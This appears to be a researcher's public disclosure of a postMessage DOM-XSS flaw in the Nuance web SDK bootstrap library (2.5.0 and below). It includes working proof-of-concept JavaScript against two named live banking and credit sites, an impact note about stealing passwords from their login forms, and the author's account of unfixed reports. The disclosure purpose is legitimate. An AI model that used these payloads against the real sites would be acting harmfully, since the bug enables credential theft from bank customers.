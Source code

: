 ```yaml
---
title: Nuance Library XSS
---
```


The [@nuance-sdk/websdk-bootstrap](https://docs.nuance.com/agent-coach/APIs/Web-SDK/architectural-overview.html) version 2.5.0 or below would allow XSS via postMessage if the UUID is known its normally a hardcoded public value.
Newer library versions added a origin check `if (this.frameEl && this.frameEl.src.indexOf(e.origin) == -1)`

# XSS on https://www.wellsfargo.com

It was triaged as Medium (4.7) but later closed because "DOM-XSS is explicitly out of scope in the program policy" An attempt was made to contact HackerOne support who think DOM-XSS has a limited risk due to its client-side nature and said public disclosure is a code of conduct violation.
During my account deletion request they changed program policy to allow DOM-XSS however still did not fix it. <https://hackerone.com/wellsfargo-bbp/policy_versions?change=3751314&type=team>

```js
onclick = () => {
  let win = open(
    'https://www.wellsfargo.com/goals-credit/smarter-credit/credit-101/fico/'
  );

  setTimeout(() => {
    // Ask the bank to create an iframe for favicon.ico as it does not have as strict a CSP.
    win.postMessage(
      JSON.stringify({
        UUID: 'WF_10006005',
        command: '1_PC_CREATE',
        info: {
          iframeId: 'favicon',
          src: ['https://www.wellsfargo.com/favicon.ico']
        }
      }),
      '*'
    );
  }, 2000);
  setTimeout(() => {
    // Ask the bank to eval some JS via favicon.
    win.postMessage(
      JSON.stringify({
        UUID: 'WF_10006005',
        command: 'CALL_OUT_FUNC',
        info: {
          name: 'favicon.contentWindow.eval',
          params: ['top.alert(window.origin)']
        }
      }),
      '*'
    );
  }, 3000);
};
```

# XSS on https://d.comenity.net

This site has no security contact and emailing their privacy contact did not result in the issue being fixed.

```js
onclick = () => {
  let win = open('https://d.comenity.net/ac/nflvisa/public/home');

  setInterval(() => {
    win.postMessage(
      JSON.stringify({
        UUID: '1112233',
        command: 'CALL_OUT_FUNC',
        info: {name: 'eval', params: ['alert(window.origin)']}
      }),
      '*'
    );
  }, 2000);
};
```

# Impact

Both sites have a login form so it could steal user passwords that may be automatic in the case of password manager usage or indirectly by using a scary message.

It does have `autocomplete="off"` but many modern browsers do not support autocomplete="off" for login fields. <https://developer.mozilla.org/en-US/docs/Web/Security/Practical_implementation_guides/Turning_off_form_autocompletion#managing_autofill_for_login_fields>

Other impacts may exist like if the origin contains or can embed account management, exposed cookies, site isolation bypass.

# Public disclosure

While I acknowledge there's very "limited" extra risks in regards to public disclosure here I dont feel there is any more I can do with unresponsive teams. If companies do feel that report submitting requires an NDA they are wrong and should never threaten over disclosure or pay for silence.
Also If I don't release this I will be thinking about it and that's a lot worse then any companies actions.
